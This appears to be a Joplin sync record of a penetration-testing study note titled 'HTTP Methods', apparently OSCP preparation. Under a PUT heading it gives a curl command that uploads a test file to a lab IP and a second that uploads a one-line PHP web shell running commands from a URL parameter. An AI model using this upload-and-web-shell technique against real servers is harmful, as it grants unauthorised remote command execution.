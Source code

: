 id: 0e4c69c5ef4248e59bfd7c7265a33344
parent_id: 
item_type: 1
item_id: 182320aff2b1444481aa40d05dbaf48c
item_updated_time: 1651110944591
title_diff: "[{\"diffs\":[[1,\"HTTP Methods\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":12}]"
body_diff: "[{\"diffs\":[[1,\"# PUT\\\n\\\nhttps://github.com/gajos112/OSCP/blob/master/HTTP%20PUT%20option\\\n\\\n> curl --upload-file test.txt -v --url http://10.0.2.13/test/test.txt -0 --http1.0\\\n> \\\n> curl -v -X PUT -d ‘&lt;?php system ($_GET\\\\[“cmd”\\\\]); ?&gt;’ http://10.0.2.13/test/shell.php\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":252}]"
metadata_diff: {"new":{"id":"182320aff2b1444481aa40d05dbaf48c","parent_id":"650ce108a34a450d868c29c647ea1bab","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-28T02:01:47.152Z
created_time: 2022-04-28T02:01:47.152Z
type_: 13